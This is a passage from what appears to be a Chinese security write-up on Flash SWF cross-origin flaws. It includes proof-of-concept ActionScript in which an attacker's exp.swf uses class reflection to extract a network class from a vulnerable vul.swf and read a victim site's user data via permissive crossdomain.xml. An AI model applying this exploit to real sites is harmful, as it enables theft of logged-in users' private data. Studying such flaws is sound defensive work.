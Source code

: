 尽管这个 download 方法是由第三方 exp.swf 发起的，但最终执行`URLLoader`的`load`方法时，上下文位于 vul.swf 里，因此这个请求仍属于 swf-site 的源。

于是攻击者从任意位置，跨站访问 swf-site 下的数据了。

更糟的是，Flash 的跨源请求可通过 crossdomain.xml 来授权。如果某个站点允许 swf-site，那么它也成了受害者。

如果用户正处于登录状态，攻击者悄悄访问带有个人信息的页面，用户的隐私数据可能就被泄露了。攻击者甚至还可模拟用户请求，将恶意链接发送给其他好友，导致蠕虫传播。

> ActionScript 虽然是强类型的，但只是开发时的约束，在运行时仍和 JavaScript 一样，可动态访问属性。

### 类反射

通过容器这个桥梁，我们可访问到子 swf 中的对象。但前提条件仍过于理想，现实中能利用的并不多。

如果目标对象不是一个元素，也没有和公开的对象相关联，甚至根本就没有被实例化，那是否就无法获取到了？

做过页游开发的都试过，将一些后期使用的素材打包在独立的 swf 里，需要时再加载回来从中提取。目标 swf 仅仅是一个资源包，其中没有任何脚本，那是如何参数提取的？

事实上，整个过程无需子 swf 参与。所谓的『提取』，其实就是 Flash 中的反射机制。通过反射，我们即可隔空取物，直接从目标 swf 中取出我们想要的类。

因此我们只需从目标 swf 里，找到一个使用了网络接口类，即可尝试为我们效力了。

开始我们的第二个案例。这是某电商网站 CDN 上的一个广告活动 swf，反编译后发现，其中一个类里封装了简单的网络操作：

```
// vul.swf
public class Tool {
    public function getUrlData(url:String, cb:Function) : void {
        var ld:URLLoader = new URLLoader();
        ld.load(new URLRequest(url));
        ld.addEventListener('complete', function(e:Event) : void {
            cb(ld.data);
        });
        ...
    }
    ...

```

在正常情况下，需一定的交互才会创建这个类。但反射，可以让我们避开这些条件，提取出来直接使用：

```
// exp.swf
var loader:Loader = new Loader();
loader.contentLoaderInfo.addEventListener('complete', function(e:Event) : void {
    var cls:* = loader.contentLoaderInfo.applicationDomain.getDefinition('Tool');
    var obj:* = new cls;

    obj.getUrlData('http://victim-site/user-info', function(d:*) : void {
        trace(d);
    });
});
loader.load(new URLRequest('//swf-site/vul.swf'));

```

由于 victim-site/crossdomain.xml 允许 swf-site 访问，于是 vul.swf 在不经意间，就充当了隐私泄露的傀儡。
